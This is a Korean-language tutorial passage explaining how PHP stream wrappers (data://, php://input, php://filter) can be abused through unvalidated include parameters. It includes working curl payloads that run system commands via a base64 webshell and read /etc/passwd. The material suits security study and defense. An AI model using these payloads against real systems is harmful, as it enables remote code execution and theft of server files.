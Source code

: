 공격에 주로 사용되는 Wrapper는 `data://`, `php://input`, `php://filter`, `expect://`, `zip://`, `phar://`이다. 따라서 해당 Wrapper에 대해서만 설명하려 한다.

## data://
Data Wrapper는 외부의 데이터나 PHP 코드를 실행시키는 데 사용된다.
외부 파일을 포함시킬 시에는 원격 파일에 엑세스하여 URL로 로드할 수 있도록 하는 설정값인 `allow_url_include`와 `allow_url_fopen`을 on으로 설정해야 한다.
※ php.ini 파일 위치 : /etc/php/\[버전\]/fpm/php.ini

> **allow_url_include 지시문**
    1. 활성화(on) 시 include, require 등의 함수 사용 시 외부 파일 포함 허용
    2. 비활성화(off) 시 php://input, php://stdin, php://memory, php://temp, data:// Wrapper 사용 불가

> **allow_url_fopen 지시문**
    1. 활성화(on) 시 file_get_contents, fopen 등의 함수 사용 시 외부 파일 읽고 쓰기 허용
    2. 비활성화(off) 시 http://, https://, ftp://, ftps://, data:// Wrapper 사용 불가

사용자 입력값이 검증없이 `include` 함수의 인자가 된다면, 외부 파일을 호스팅할 필요 없이 RCE 할 수 있다. 리눅스 환경에서 `$` 문자는 환경변수 참조 시 사용하는 문자로 이를 이스케이프 하기 위해서는 `"`가 아닌 `'`로 문자열을 감싸야 한다.
```shell
attacker echo -n '<?php system($_GET["cmd"]); ?>' | base64
attacker$ curl "$URL/?parameter=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2b&cmd=whoami"
```

## php://input
php://input는 <u>POST 메서드로 요청 시 데이터(HTTP Body)를 읽을 수 있는 읽기 전용 스트림이다.</u>
php://input은 `enctype="multipart/form-data"` 와 함께 사용할 수 없으며, `allow_url_include`가 on으로 설정되어 있어야 한다.

POST 메서드 사용 시 HTTP Body로 전달된 데이터를 입력받아온다.
HTTP Body 데이터에 웹셸 코드를 삽입하여 페이지에 코드 실행 결과를 포함시키는 방식으로 RCE 등의 코드 실행이 가능하다.
```shell
attacker$ curl -X POST --data "<?php system('id'); ?>" "$URL?parameter=php://input"
attacker$ curl -X POST --data "<?php file_get_contents('/etc/passwd'); ?>" "$URL?parameter=php://input"
```

## php://filter
php://filter는 <u>스트림을 여는 시점에 필터를 적용할 수 있도록 설계된 Wrapper</u>이다. 이는 `readfile()`, `file()`, `file_get_contents()` 와 같은 파일 함수가 작동하기 전에 스트림 콘텐츠를 변경할 수 있다는 것이다.
```shell
attacker$ curl "$URL?parameter=php://filter/$FILTERS/resource=$FILE"
```

Filter Wrapper는 파일의 I/O에 선택한 filters를 적용시켜 준다.

|**String**|string.rot13, string.toupper/tolower, string.strip_tags|
|**Conversion**|convert.base64-encode/decode, convert.quoted-printable-encode/decode, convert.iconv.*|
|**Compression**|zlib.deplate/inflate, bzip2.compress/decompress|
|**Other**|consumed, dechunk, convert.*|

